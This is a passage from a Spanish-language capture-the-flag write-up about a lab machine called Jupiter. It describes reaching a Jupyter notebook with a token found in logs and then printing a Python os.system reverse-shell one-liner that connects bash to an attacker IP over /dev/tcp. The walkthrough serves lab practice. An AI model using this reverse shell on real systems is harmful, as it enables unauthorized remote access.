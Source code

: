 Como era de esperarse, tenemos que usar un token para acceder:

![](/assets/img/jupiter/4.png)

Podemos usar el token que averiguamos anteriormente, pero en caso de que no te funcione, puedes buscar mas tokens en: ```/opt/solar-flares/logs```

Si vemos uno de los archivos, podemos ver que es esta ejecutando un comando, asi que nosotros podemos intentar lo mismo pero una reverse shell

![](/assets/img/jupiter/5.png)

Jupyter al estar trabajando un Python, entonces nos mandaremos un reverse shell usando el modulo ```os```:

```py
import os; os.system('bash -c "bash -i >& /dev/tcp/<tu_ip>/443 0>&1"')
```

